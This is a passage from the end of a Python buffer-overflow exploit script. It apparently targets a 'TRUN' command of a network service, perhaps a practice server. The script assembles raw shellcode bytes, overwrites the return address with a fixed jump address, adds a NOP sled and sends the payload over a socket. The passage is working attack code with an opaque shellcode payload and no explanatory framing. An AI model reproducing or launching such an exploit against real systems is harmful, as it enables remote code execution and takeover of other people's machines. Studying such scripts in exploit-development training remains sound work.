 	shellcode += b"\xe9\xb0\xf2\x81\x4f\xbb\x1f\xd5\xfd\xe6\x77"
 	shellcode += b"\x1a\xcc\x18\x88\x34\x47\x6b\xba\x9b\xf3\xe3"
 	shellcode += b"\xf6\x54\xda\xf4\xf9\x4e\x9a\x6a\x04\x71\xdb"
 	shellcode += b"\xa3\xc3\x25\x8b\xdb\xe2\x45\x40\x1b\x0a\x90"
 	shellcode += b"\xc7\x4b\xa4\x4b\xa8\x3b\x04\x3c\x40\x51\x8b"
 	shellcode += b"\x63\x70\x5a\x41\x0c\x1b\xa1\x02\xf3\x74\x2b"
 	shellcode += b"\xd3\x9b\x86\x2b\xc5\x07\x0e\xcd\x8f\xa7\x46"
 	shellcode += b"\x46\x38\x51\xc3\x1c\xd9\x9e\xd9\x59\xd9\x15"
 	shellcode += b"\xee\x9e\x94\xdd\x9b\x8c\x41\x2e\xd6\xee\xc4"
 	shellcode += b"\x31\xcc\x86\x8b\xa0\x8b\x56\xc5\xd8\x03\x01"
 	shellcode += b"\x82\x2f\x5a\xc7\x3e\x09\xf4\xf5\xc2\xcf\x3f"
 	shellcode += b"\xbd\x18\x2c\xc1\x3c\xec\x08\xe5\x2e\x28\x90"
 	shellcode += b"\xa1\x1a\xe4\xc7\x7f\xf4\x42\xbe\x31\xae\x1c"
 	shellcode += b"\x6d\x98\x26\xd8\x5d\x1b\x30\xe5\x8b\xed\xdc"
 	shellcode += b"\x54\x62\xa8\xe3\x59\xe2\x3c\x9c\x87\x92\xc3"
 	shellcode += b"\x77\x0c\xb2\x21\x5d\x79\x5b\xfc\x34\xc0\x06"
 	shellcode += b"\xff\xe3\x07\x3f\x7c\x01\xf8\xc4\x9c\x60\xfd"
 	shellcode += b"\x81\x1a\x99\x8f\x9a\xce\x9d\x3c\x9a\xda"

 	eip = pack("<L", (0x625011af))

 	buf = b"TRUN ."
 	buf += b"A"*2006
 	buf += eip
 	buf += b"\x90" * 30
 	buf += shellcode
 	buf += b"C"*(0xBB8 -len(buf))

 	s.send(buf)

 	print(s.recv(1024))

 	s.close()
 	sys.exit(0)

 if __name__ == "__main__":
  	main()
```
